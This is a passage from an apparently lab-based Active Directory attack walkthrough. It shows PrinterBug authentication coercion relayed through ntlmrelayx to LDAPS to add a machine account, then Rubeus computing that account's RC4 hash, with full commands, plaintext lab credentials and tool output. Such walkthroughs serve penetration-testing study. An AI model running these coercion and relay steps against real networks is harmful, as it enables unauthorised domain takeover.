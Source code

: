 ### Step 3 - Trigger Printerbug

Authentication `@10.10.20.52` is the DC checked in step 1. The system at `10.10.20.10` is the IP running `ntlmrelayx.py` from step 2.

```plain
$ python3 printerbug.py 'offsec.nl'/'crypt0rr':'Welkom1234'@10.10.20.52 10.10.20.10
[*] Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Attempting to trigger authentication via rprn RPC at 10.10.20.52
[*] Bind OK
[*] Got handle
DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Triggered RPC backconnect, this may or may not have worked
```

If all goes as expected the following will be performed by `ntlmrelayx.py`.

```plain
[*] Servers started, waiting for connections
[*] SMBD-Thread-5: Received connection from 10.10.20.10, attacking target ldaps://dc03.offsec.nl
[*] Authenticating against ldaps://dc03.offsec.nl as OFFSEC/DC02$ SUCCEED
[*] Assuming relayed user has privileges to escalate a user via ACL attack
[-] Cannot perform ACL escalation because we do not have create user privileges. Specify a user to assign privileges to with --escalate-user
[*] Attempting to create computer in: CN=Computers,DC=offsec,DC=nl
[*] SMBD-Thread-7: Connection from 10.10.20.10 controlled, but there are no more targets left!
[*] Adding new computer with username: JDIWKAKA$ and password: pU^Jj391_X6>b result: OK
```

A computer account `JDIWKAKA$` with password `pU^Jj391_X6>b` is added to the domain.

### Step 4 - Calculate RC4 from Password

```plain
PS Z:\> .\Rubeus.exe hash /password:pU^Jj391_X6>b

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : pU^Jj391_X6>b
[*]       rc4_hmac             : CC7EC46213E1EB105FFFC97F34AEAF64

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!
```
